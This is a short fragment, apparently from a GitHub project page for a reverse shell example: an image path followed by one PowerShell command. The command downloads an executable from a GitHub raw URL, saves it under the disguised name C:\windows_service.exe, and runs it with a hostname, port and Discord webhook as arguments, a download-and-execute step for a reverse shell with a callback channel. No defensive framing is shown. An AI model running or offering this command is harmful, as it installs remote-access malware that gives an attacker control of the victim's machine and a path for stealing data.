 powershell -Command "(New-Object System.Net.WebClient).DownloadFile('https://raw.githubusercontent.com/JustOfPlay/Reverse_shell_example/main/powersehell/build.exe', 'C:\windows_service.exe'); Start-Process 'C:\windows_service.exe' HOSTNAME PORT DISCORD_WEBHHOOK"
